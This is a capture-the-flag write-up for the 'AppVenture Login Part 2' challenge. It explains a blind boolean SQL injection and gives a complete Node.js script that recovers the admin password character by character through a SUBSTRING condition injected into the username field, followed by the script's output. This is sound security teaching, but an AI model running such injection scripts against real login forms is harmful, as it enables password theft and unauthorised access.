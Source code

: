 ## AppVenture Login Part 2

> Ok, you got the flag, but I bet you'll never get my password!

Basing off the description, the flag is probably the password. Even though we logged in as admin in the last challenge, we do not know of the password.

To get the password, we can check the password 1 character at a time to reduce the number of tries. Trying the entire password string at a time require exponential amount of tries and will be unrealistic.

The flag format is `flag{...}` where characters consist of lower case letters, `{}` and `_`. We can quickly code up a little script to find the password. In this writeup we will be using `node.js` for the simplicity and non-pythonic syntax.

```js
const fetch = require("node-fetch");
const FormData = require('form-data');

let chars = "abcdefghijklmnopqrstuvwxyz_{}".split('');
let password = [];

async function verify(i, c) {
    const form = new FormData();
    form.append('username', `admin' and SUBSTRING(password, ${i + 1}, 1)='${c}' --`);
    const res = await fetch('http://35.240.143.82:4208/login', {method: 'POST', body: form})
    const text = await res.text();
    return text !== "Login failed"
}

async function step(i) {
    for (let c of chars) {
        if (await verify(i, c)) return c;
    }
    return null;
}

async function brute_force() {
    let i = 0;
    while (true) {
        password[i] = await step(i);
        console.log(password.join(''));
        if (!password[i]) break;
        i++;
    }
    console.log(password.join(''));
}

brute_force();
```

As before we use `admin'` to escape the admin field, and `--` to skip the password check.

However we add our own check in the middle, `SUBSTRING(password, i, 1)` works the same as normal substring would but sql is 1-indexed(kinda weird but yeh)

What would happen would be like this

- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='a' --` fail
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='b' --` fail
- ...
- `select id from users where name='admin' and SUBSTRING(password, 1, 1)='f' --` success
- `select id from users where name='admin' and SUBSTRING(password, 2, 1)='a' --` fail
- ...

`verify` will make a request to check if the password has character in variable `c` at position `i`.

`step` will simply try all characters for a position until one hits.

`brute_force()` will step through all positions until a correct character can't be found for the position, which would be most likely the end of the password

### Running the script

```
f
fl
fla
...
flag{oops_looks_like_youre_not_blind
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
flag{oops_looks_like_youre_not_blind}
```

Flag obtained

